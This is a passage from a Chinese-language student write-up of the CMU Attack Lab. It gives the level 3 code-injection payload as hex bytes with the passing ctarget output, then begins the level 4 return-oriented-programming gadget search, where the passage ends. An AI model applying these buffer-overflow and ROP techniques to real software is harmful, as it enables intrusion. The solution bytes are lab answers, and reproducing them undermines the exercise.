 ```
0000000000000000 <.text>:
   0:	bf b0 dc 61 55       	mov    $0x5561dcb0,%edi
   5:	c3                   	retq
```

通过查询ASCII表，我们可以得到cookie 0x59b997fa的字节码表示“35 39 62 39 39 37 66 61”。

```
bf b0 dc 61 55 c3 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /* 插入代码段 */
78 dc 61 55 00 00 00 00 /* rsp-0x24 */
fa 18 40 00 00 00 00 00 /* touch3入口 */
35 39 62 39 39 37 66 61 /* 字符串，注意用00结尾 */
00
```

```
[root@MiWiFi-R4A-srv target1]# ./hex2raw < ctarget.l3.txt | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:3:BF B0 DC 61 55 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 FA 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61 00
```

## level4

由于DI攻击方式太过常见，所以很多程序都自带针对DI的防御手段，比如栈随机化、栈破坏检测（通过金丝雀值）和限制可执行代码区域。但显然它们也不能做到尽善尽美，level4和level5就要求我们在以上限制下重新完成touch2和touch3的骇入。

现在我们重新梳理touch2，不难发现其实我们真正需要的操作是让寄存器edi获得0x59b997fa。由于当前的限制条件，我们只能将其写在栈上再通过pop读出，且这个pop操作只能通过lab给出的“工具代码段”也就是start_farm到end_farm这一部分得到。

首先，参考实验说明的附录表格，我们知道pop操作是0x58~0x5f，于是去farm中寻找，发现只有58和5c，分别对应popq rax和popq rsp，这里再次说明q后缀是64位，l后缀是32位。了解二者含义都知道，我们只有一个选项那就是popq rax，也就是说我们存储的0x59b997fa会被送到rax。

这里我们取addval，0x4019a7+4=0x4019ab：

```
00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 [58] 90   lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	retq   

00000000004019b5 <setval_424>:
  4019b5:	c7 07 54 c2 [58] 92   movl   $0x9258c254,(%rdi)
  4019bb:	c3                   	retq
```
